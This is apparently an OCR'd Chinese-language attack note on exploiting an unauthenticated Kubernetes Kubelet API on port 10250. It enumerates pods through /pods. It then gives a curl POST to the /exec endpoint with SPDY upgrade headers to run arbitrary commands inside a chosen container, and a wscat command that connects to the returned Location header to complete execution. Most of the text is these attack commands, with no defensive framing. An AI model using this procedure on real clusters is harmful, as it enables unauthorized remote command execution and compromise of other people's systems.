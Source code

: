 	Kubernetes 在端口 10250 上公开了一个未经身份验证的 REST API。向 /pods 端点发送 GET 请求来获取 pod 列表。
	可以得到
	● 命名空间
	    ○ 监控
	● Pod 名称
	● 容器名称
	    ○ 推送网关
	发送get请求
	> curl –insecure -v -H "X-Stream-Protocol-Version: v2.channel.k8s.io" -H "X-Stream-Protocol-Version：channel.k8s.io" -H "Connection：upgrade" -H "Upgrade：SPDY/3.1" -X POST "https://<DOMAIN>:<PORT>/exec/<NAMESPACE>/<POD NAME>/<CONTAINER NAME>?command=<COMMAND TO EXECUTE>&input=1&output=1&tty=1"
	可以成功创建了一个 websocket 连接，注意记住返回包里面的Location Header值
	下载wscat
	> apt-get install node-ws
	执行命令
	> wscat -c "https://<DOMAIN>:<PORT>/<Location Header Value>" –no-check